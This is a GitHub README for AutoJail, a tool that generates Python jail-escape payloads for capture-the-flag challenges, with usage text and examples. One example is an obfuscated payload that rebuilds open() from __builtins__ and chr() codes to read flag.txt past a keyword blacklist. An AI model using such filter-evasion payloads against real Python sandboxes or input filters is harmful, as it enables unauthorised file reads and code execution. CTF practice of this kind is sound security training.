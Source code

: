 # AutoJail Python

AutoJail is a tool for automatically solving python jail CTF challenges. This program takes in a blacklist/whitelist and generates valid python that evaluetes to what you want to achieve without using any blacklisted keywords or only using the whitelisted keywords.

⚠️ This project is still in development ⚠️

## Getting started

```
git pull ...
cd autojail/autojail
python main.py -h
```

## Examples

**Open a file with a blacklist**
```
python main.py -o flag.txt -b open "'" '"'

print(*__builtins__.__dict__[chr(111)+chr(112)+chr(101)+chr(110)](chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)))
```

**Generate strings**
```
python main.py --string HEI --blacklist H c ᶜ 0 7

'%\143'%(int(repr(int(not())+(int(not())+int(not()))+(int(not())+int(not()))**(int(not())+int(not())))+repr(2)))+'%\143'%(69)+'%\143'%(int(repr(int(not())+(int(not())+int(not()))+(int(not())+int(not()))**(int(not())+int(not())))+repr(3)))
```

**Create any number using whitelist**
```
python main.py -n 22 -w 0 1 b

0b10110
```


## Usage
```
usage: main.py [-h] [-b [BLACKLIST ...]] [-w [WHITELIST ...]] [-s STRING]
               [-n NUMBER] [-o FILE_PATH]

Autojail is a tool for automatically solving python jail CTF challenges.

options:
  -h, --help            show this help message and exit
  -b [BLACKLIST ...], --blacklist [BLACKLIST ...]
                        A list of blacklisted kwds not allowed.
  -w [WHITELIST ...], --whitelist [WHITELIST ...]
                        A list of whitelisted kwds allowd to use.
  -s STRING, --string STRING
                        Create a string.
  -n NUMBER, --number NUMBER
                        Create a number.
  -o FILE_PATH, --open FILE_PATH
                        Open a file and read it.

```
